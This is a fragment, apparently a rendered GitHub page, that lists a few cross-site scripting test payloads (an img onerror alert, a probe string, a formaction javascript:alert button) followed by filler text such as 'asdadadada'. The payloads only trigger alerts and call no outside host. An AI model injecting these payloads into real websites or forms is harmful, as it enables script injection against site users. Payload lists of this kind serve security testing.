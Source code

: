 # -b-
1:
<img src=x onerror=alert(1)>
2:
<img src=<'';!--"<XSS>=&{()}>
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
test
asdadadada
hashd